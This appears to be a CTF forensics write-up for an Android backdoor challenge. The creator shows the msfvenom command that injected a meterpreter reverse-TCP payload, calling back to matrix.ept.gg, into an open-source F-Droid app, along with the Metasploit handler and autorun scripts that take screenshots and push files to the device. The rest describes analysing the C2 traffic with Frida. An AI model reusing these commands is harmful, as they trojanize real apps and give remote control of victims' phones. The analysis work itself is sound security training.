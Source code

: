 # Forensics//ˈbæk.dɔːr/ Writeup

## Notes from the creator

This challenge was created by injecting a meterpreter reverse tcp client into an Open Source app semi-randomly picked from the [F-Droid Catalogue](https://f-droid.org/packages/de.spiritcroc.riotx/).
By using msfvenom this is straight forward: `sudo msfvenom -x de.spiritcroc.riotx.apk -p android/meterpreter/reverse_tcp LHOST=matrix.ept.gg LPORT=13337 -o matrix.apk`

We then fired up a meterpreter listener on a server running on matrix.ept.gg with the following config:

#### **`run.rc`**
```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 13337
set AutoRunScript /home/kali/backdoor/chall/multi.rc
set ExitOnSession false
exploit -j -z
```

#### **`multi.rc`**
```bash
sysinfo
screenshot -p /home/kali/backdoor/chall/downloads/ss.jpeg
upload /home/kali/backdoor/chall/flag.xor
rm flag.xor
screenshot -p /home/kali/backdoor/chall/downloads/ss2.jpeg
execute -H -f /system/bin/echo -a '68e4aa768c14bbdf5a9ea6bcf339206bd01ef1c513f4b46436'
exit
```

To kick it off we had a cronjob on reboot that would start metasploit with the above configuration.
#### **`autoexec.sh`**
```bash
/usr/bin/tmux new-session -d -s ENTER
/usr/bin/tmux detach -s ENTER
sleep 3
/usr/bin/tmux send-keys -t 0 "/usr/bin/msfconsole -r /home/kali/backdoor/chall/run.rc" ENTER
```

Our reverse TCP handler will now automatically execute the commands in `multi.rc` once we get a callback from the malicious APK.
The commands with the xored flag might feel a bit artificial or unsound, but the reasoning is that it should not be easy to cheese the solution by using only heapdumps and strings (@klarz). The intention was that you should somehow capture/extract the data from the C2 server to parse and view the commands that was sent to your device to get the full picture of what was happening to your phone. 

## Finding the backdoor

The first step to solve this challenge is to figure out that there is a meterpreter payload injected to the apk. This can be done in many ways and depends on your preferred methodology. Since this is a challenge targeted towards more experienced Android reversers/analysts I will not go into details, but looking at either network traffic or device file writes or tracing syscalls you would notice that something fishy is going on. The malicious code is also quite easily found by doing static analysis of the apk and you could potentially diff the original application with the modified malicious one. Either approach should eventually lead you to the package `de.spiritcroc.riotx.jtecm` and the `Bugeh` class where the staged payload is recieved from the C2 server and loaded by the application:

![](img/stagedPayload.png)

A nice opsec touch here is that the classes are deleted from the device file system after they are loaded. One way to obtain these classes for further inspection is to use [Frida](https://frida.re/) and hook the `java.io.File.Delete` method to prevent the deletion and fetch them from the device. 

```
Delete attempt prevented on  /data/user/0/de.spiritcroc.riotx/files/uxfn5w.jar
Delete attempt prevented on  /data/user/0/de.spiritcroc.riotx/files/met.jar
```

We'll retrieve the files and have a look in jadx-gui:

![uxfn5w.jar](img/stage1.png)

We can see that the first class (random chars.jar) is just another dynamical class loader that again loads the `met.jar`
Beware, when we open `met.jar` we are taking a leap into the mysteries and dark depths of the metasploit meterpreter and its Android implementation. After spending some time on understanding how the transport and communication between the client and the C2 server works we have quite a few possibilities on how to proceed. My approach was to go for the aesDecrypt method in `com.metasploit.meterpreter.Transport` where we should be able to get the cleartext data recieved from `public TLVPacket readAndDecodePacket(DataInputStream dataInputStream)`in the same class. 

![](img/meterpreterimpl.png)

![](img/readanddecrypt.png)

## Decrypting and parsing the meterpreter traffic

Now that we have figured out there is a meterpreter backdoor in our APK and we have a full understanding of how the Android meterpreter imeplementation works the next step is to hook methods related to `javax.crypto` to preserve keys, IVs and cipher objects. Presuming that someone already had done this I found the following Frida script making my life much easier: [AES_HOOK](https://raw.githubusercontent.com/berkayyildi/Frida-Android-Hooking/master/AES_HOOK.txt)

This will give you the raw data of all traffic between the client and the server, but due to the complexity and fine design of meterpreter communication and packet structure it will be quite difficult to read by the human eye. Meterpreter uses a specific TLV packet structure to implement the protocol for communication between the cilent and the server. Thus, the raw data must be translated/parsed into TLV packets. Again I felt that this have had to be done before so it lead me to the following project: [REW-Sploit](https://github.com/REW-sploit/REW-sploit). Reading up on this it sounded like it should be able to exactly what I wanted, but there are some limitations in this tool and it is not able to decrypt the traffic without the keys used for the aesEncryption. But we are already able to get the unencrypted TLV packets by hooking the crypto methods so we can use the parts of this projects that are responsible for parsing the TLV packets to human readable commands and data.

Finally, we have all the pieces required to be able to capture, decrypt and parse the traffic coming from the C2 server to the backdoored android application. It took a bit of work to fit the REW Sploit MSF parser with the AES HOOK script and, but in the end we get a fully working live cleartext view of all commands coming in from the C2 server after we launch the APK:

https://user-images.githubusercontent.com/44871383/200541208-465bbf13-0fc5-4071-9123-a2f63c472052.mp4

There are other ways to accomplish this by doing various monitoring/tracing directly on the device or you can use other hooking approaches. e.g by hooking the dynamically loaded meterpreter classes that are responbible for executing commands etc. This is just one example that required me to get a better understanding of Frida and the underlying implementation of the meterpreter protocol.
